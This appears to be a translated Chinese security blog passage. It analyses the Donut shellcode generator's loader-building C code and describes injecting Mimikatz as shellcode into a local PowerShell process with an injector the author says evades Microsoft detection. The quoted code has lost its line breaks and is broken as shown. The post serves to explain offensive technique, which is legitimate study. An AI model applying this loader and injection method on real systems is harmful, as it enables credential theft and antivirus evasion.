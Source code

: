   
在所有这些中，也许最有趣的是 build_loader，它包含以下代码：  

    
          *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 
    
    
    
    uint8_t *pl;uint32_t t;  
    // target is x86?if(c->arch == DONUT_ARCH_X86) {  c->pic_len = sizeof(LOADER_EXE_X86) + c->inst_len + 32;} else// target is amd64?if(c->arch == DONUT_ARCH_X64) {  c->pic_len = sizeof(LOADER_EXE_X64) + c->inst_len + 32;} else// target can be both x86 and amd64?if(c->arch == DONUT_ARCH_X84) {  c->pic_len = sizeof(LOADER_EXE_X86) +  sizeof(LOADER_EXE_X64) + c->inst_len + 32;}// allocate memory for shellcodec->pic = malloc(c->pic_len);  
    if(c->pic == NULL) {  DPRINT("Unable to allocate %" PRId32 " bytes of memory for loader.", c->pic_len);  return DONUT_ERROR_NO_MEMORY;}  
    DPRINT("Inserting opcodes");  
    // insert shellcodepl = (uint8_t*)c->pic;  
    // call $ + c->inst_lenPUT_BYTE(pl, 0xE8);PUT_WORD(pl, c->inst_len);PUT_BYTES(pl, c->inst, c->inst_len);// pop ecxPUT_BYTE(pl, 0x59);  
    // x86?if(c->arch == DONUT_ARCH_X86) {  // pop edx  PUT_BYTE(pl, 0x5A);  // push ecx  PUT_BYTE(pl, 0x51);  // push edx  PUT_BYTE(pl, 0x52);    DPRINT("Copying %" PRIi32 " bytes of x86 shellcode",  (uint32_t)sizeof(LOADER_EXE_X86));    PUT_BYTES(pl, LOADER_EXE_X86, sizeof(LOADER_EXE_X86));} else// AMD64?if(c->arch == DONUT_ARCH_X64) {  
      DPRINT("Copying %" PRIi32 " bytes of amd64 shellcode",  (uint32_t)sizeof(LOADER_EXE_X64));  
      // ensure stack is 16-byte aligned for x64 for Microsoft x64 calling convention    // and rsp, -0x10  PUT_BYTE(pl, 0x48);  PUT_BYTE(pl, 0x83);  PUT_BYTE(pl, 0xE4);  PUT_BYTE(pl, 0xF0);  // push rcx  // this is just for alignment, any 8 bytes would do  PUT_BYTE(pl, 0x51);    PUT_BYTES(pl, LOADER_EXE_X64, sizeof(LOADER_EXE_X64));} else// x86 + AMD64?if(c->arch == DONUT_ARCH_X84) {  
      DPRINT("Copying %" PRIi32 " bytes of x86 + amd64 shellcode",  (uint32_t)(sizeof(LOADER_EXE_X86) + sizeof(LOADER_EXE_X64)));  
      // xor eax, eax  PUT_BYTE(pl, 0x31);  PUT_BYTE(pl, 0xC0);  // dec eax  PUT_BYTE(pl, 0x48);  // js dword x86_code  PUT_BYTE(pl, 0x0F);  PUT_BYTE(pl, 0x88);  PUT_WORD(pl, sizeof(LOADER_EXE_X64) + 5);    // ensure stack is 16-byte aligned for x64 for Microsoft x64 calling convention    // and rsp, -0x10  PUT_BYTE(pl, 0x48);  PUT_BYTE(pl, 0x83);  PUT_BYTE(pl, 0xE4);  PUT_BYTE(pl, 0xF0);  // push rcx  // this is just for alignment, any 8 bytes would do  PUT_BYTE(pl, 0x51);    PUT_BYTES(pl, LOADER_EXE_X64, sizeof(LOADER_EXE_X64));  // pop edx  PUT_BYTE(pl, 0x5A);  // push ecx  PUT_BYTE(pl, 0x51);  // push edx  PUT_BYTE(pl, 0x52);  PUT_BYTES(pl, LOADER_EXE_X86, sizeof(LOADER_EXE_X86));}return DONUT_ERROR_OK;

同样，从简短的分析来看，该子例程基于原始可执行文件创建/准备与位置无关的 shellcode
以供以后注入，插入汇编指令以根据每个体系结构对齐堆栈，并使代码流跳转到可执行文件的原始
shellcode。请注意，这可能不是最新的代码，因为该文件的最后一次提交是在 2022 年 12 月，最新版本是在 2023 年 3
月，但它很好地说明了它的工作原理。  
最后，进入本节的概念证明，我将通过将 shellcode 注入本地 poweshell 进程来执行直接从 gentilkiwi 存储库获取的默认
Mimikatz。为此，我们需要先生成 PI 代码。  
![](https://gitee.com/fuli009/images/raw/master/public/20230621095456.png)  
生成 shellcode
后，我们现在可以使用我们喜欢的任何注入器来达到此目的。幸运的是，最新版本已经带有一个本地（用于执行它的进程）和一个远程（用于另一个进程）注入器，Microsoft尚未检测到特征，因此我将使用它。  
![](https://gitee.com/fuli009/images/raw/master/public/20230621095457.png)  
